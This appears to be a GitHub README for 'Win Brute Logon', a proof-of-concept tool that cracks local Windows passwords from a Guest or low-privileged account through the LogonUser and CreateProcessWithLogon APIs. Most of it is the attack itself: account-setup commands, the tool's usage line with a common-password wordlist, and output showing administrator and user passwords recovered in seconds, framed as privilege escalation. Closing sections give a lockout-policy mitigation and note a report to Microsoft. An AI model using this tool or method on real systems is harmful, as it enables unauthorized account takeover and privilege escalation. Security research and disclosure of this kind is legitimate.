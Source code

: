 # Win Brute Logon (Proof Of Concept)

Release date: `2020-05-14`

Target: Windows XP to Latest Windows 10 Version (1909)

![Console](https://i.ibb.co/Cm5052S/screen.png)

Weakness location : `LogonUserA`, `LogonUserW`, `CreateProcessWithLogonA`, `CreateProcessWithLogonW`

# Introduction

This PoC is more what I would call a serious weakness in Microsoft Windows Authentication mechanism than a vulnerability.

The biggest issue is related to the lack of privilege required to perform such actions.

Indeed, from a Guest account (The most limited account on Microsoft Windows), you can crack the password of any available local users.

Find out which users exists using command : `net user`

This PoC is using multithreading to speed up the process and support both 32 and 64bit.

# PoC Test Scenario (With a Guest Account)

Tested on Windows 10 

Install and configure a freshly updated Windows 10 virtual or physical machine.

In my case full Windows version was : `1909 (OS Build 18363.778)`

Log as administrator and lets create two different accounts : one administrator and one regular user. Both users are local.

/!\ Important notice: I used the Guest account for the demo but this PoC is not only limited to Guest account, it will work from any account / group (guest user / regular user / admin user etc...) 

## Create a new admin user

`net user darkcodersc /add`

`net user darkcodersc trousers` (trousers is the password)

`net localgroup administrators darkcodersc /add`

## Create a regular user

`net user HackMe /add`

`net user HackMe ozlq6qwm` (ozlq6qwm is the password)

## Create a new Guest account

`net user GuestUser /add`

`net localgroup users GuestUser /delete`

`net localgroup guests GuestUser /add`

## Get a Wordlist 

In my case both `trousers` and `ozlq6qwm` are in SecList : https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt

## Start the attack

Logoff from administrator account or restart your machine and log to the Guest account. 

Place the PoC executable anywhere you have access as Guest user.

Usage : `WinBruteLogon.exe -v -u <username> -w <wordlist_file>`

`-v` is optional, it design the verbose mode.

By default, domain name is the value designated by `%USERDOMAIN%` env var. You can specify a custom name with option `-d`

### Crack First User : `darkcodersc` (Administrator)

prompt(guest)>`WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=2260, handle=364
[INFO] New "TWorker" Thread created with id=3712, handle=532
[DONE] Done.
[ OK ] Password for username=[darkcodersc] and domain=[DESKTOP-0885FP1] found = [trousers]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=2260, handle=364) Thread successfully terminated.
[INFO] "TWorkers"(id=3712, handle=532) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

### Crack Second User : `HackMe` (Regular User)

prompt(guest)>`WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=5748, handle=336
[INFO] New "TWorker" Thread created with id=4948, handle=140
[DONE] Done.
[ OK ] Password for username=[HackMe] and domain=[DESKTOP-0885FP1] found = [ozlq6qwm]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=5748, handle=336) Thread successfully terminated.
[INFO] "TWorkers"(id=4948, handle=140) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

# Real world scenario

If you gain access to a low privileged user, you could crack the password of a more privileged user and escalate your privilege.

# Mitigation (General)

- Disable guest(s) account(s) if present.
- Application white-listing.
- Follow the guidelines to create and keep a password strong. Apply this to all users.

## Implement Security Lockout Policy (Not present by default)

Open `secpol.msc` then go to `Account Policies` > `Account Lockout Policy` and edit value `Account lockout threshold` with desired value from (1 to 999).

Value represent the number of possible attempt before getting locked.

/!\ LockDown Policy wont work on Administrator account. At this moment, best protection for Administrator account (if Enabled) is to setup a very complex password.

# Weakness Report

A report was sent to Microsoft Security Team.

They should at least implement by default account lockout. Actually it is not.
